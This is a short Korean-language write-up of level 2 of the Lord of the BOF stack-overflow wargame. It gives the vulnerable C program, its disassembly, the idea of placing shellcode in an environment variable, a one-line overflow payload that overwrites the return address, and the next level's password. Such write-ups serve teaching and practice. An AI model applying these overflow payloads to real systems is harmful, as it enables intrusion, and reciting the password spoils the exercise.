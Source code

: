 ```yaml
---
title: "BOF - Lv.2 gremlin"
excerpt: "Lv.2 gremlin"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - cobolt
        - small buffer 
*/

int main(int argc, char *argv[])
{
    char buffer[16];
    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);
}
```
```
(gdb)
0x8048430 <main>:       push   %ebp
0x8048431 <main+1>:     mov    %ebp,%esp
0x8048433 <main+3>:     sub    %esp,16
0x8048436 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804843a <main+10>:    jg     0x8048453 <main+35>
0x804843c <main+12>:    push   0x80484d0
0x8048441 <main+17>:    call   0x8048350 <printf>
0x8048446 <main+22>:    add    %esp,4
0x8048449 <main+25>:    push   0
0x804844b <main+27>:    call   0x8048360 <exit>
0x8048450 <main+32>:    add    %esp,4
0x8048453 <main+35>:    mov    %eax,DWORD PTR [%ebp+12]
0x8048456 <main+38>:    add    %eax,4
0x8048459 <main+41>:    mov    %edx,DWORD PTR [%eax]
0x804845b <main+43>:    push   %edx
0x804845c <main+44>:    lea    %eax,[%ebp-16]
0x804845f <main+47>:    push   %eax
0x8048460 <main+48>:    call   0x8048370 <strcpy>
0x8048465 <main+53>:    add    %esp,8
0x8048468 <main+56>:    lea    %eax,[%ebp-16]
0x804846b <main+59>:    push   %eax
0x804846c <main+60>:    push   0x80484dc
0x8048471 <main+65>:    call   0x8048350 <printf>
0x8048476 <main+70>:    add    %esp,8
0x8048479 <main+73>:    leave
0x804847a <main+74>:    ret
```

## 2. Vulnerability

버퍼의 크기가 16인데 쉘코드 길이는 25byte, 41byte 등으로 버퍼안에 쉘코드를 넣어줄 수가 없음. 그래서 환경변수를 이용하여 문제를 해결해야 함.  
환경변수를 이용하면 변수의 주소를 리턴주소로 설정하면 되므로 버퍼의 크기에 상관없이 쉘코드를 실행시킬 수 있다. [환경변수 설정 및 주소 구하기](https://pistolwest.github.io/linux/bof/environment-value/)
## 3. Solution
환경변수 주소 ex)0xbffffc34 를 리턴 주소로 해주면 끝임. 
```
./cobolt `python -c 'print "\x90"*20+"\x34\xfc\xff\xbf"'`
``` 
my-pass : hacking exposed